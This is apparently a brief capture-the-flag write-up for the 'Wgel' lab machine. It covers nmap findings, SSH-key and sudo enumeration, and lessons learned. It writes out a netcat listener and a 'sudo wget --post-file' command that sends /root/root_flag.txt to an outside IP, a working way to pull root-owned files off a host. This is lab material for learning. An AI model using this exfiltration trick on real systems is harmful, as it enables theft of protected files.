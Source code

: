 ## Wgel

# nmap
22 OpenSSH 7.2p2
80 Apache httpd 2.4.18

# creds

Jessie

# enumerate sitemap
.ssh dir for the jessie user

`sudo -l` gives a overview of privaledges

`wget` has a feature that it can send files `--post-file` if wget can be run as root the following works:
first listen on nc `nc -l 9999`
`sudo wget --post-file=/root/root_flag.txt 10.9.9.193:9999`

# Lessons learned

`wget` can send files
`sudo -l` gives usefull information
site enumeration is key
always view source, even on 'It works' pages from apache
dirbuster cant do suburls gobuster can
